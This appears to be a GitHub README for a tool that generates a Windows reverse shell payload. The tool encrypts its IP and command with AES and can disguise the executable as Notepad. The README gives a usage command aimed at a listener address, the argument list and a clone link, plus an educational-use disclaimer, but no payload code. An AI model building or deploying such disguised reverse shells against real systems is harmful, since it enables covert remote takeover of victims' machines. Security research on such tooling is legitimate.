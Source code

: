 # 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.
  
---
  
## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)
  
---
  
## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad
```
  
### Arguments
  
**--ip** : IP address of the reverse shell listener (required).  
**--port** : TCP port for the connection (default: 49557).  
**--cmd** : Command to execute (default: cmd.exe).  
**--notepad** : Mimic Notepad metadata and icon.  
**--keep** : Keep temporary files (.c, .rc, .res) after building.  
  
---
  
## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```
  
---
  
## Disclaimer
  
**This project is provided strictly for educational and ethical security research purposes.  
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**  
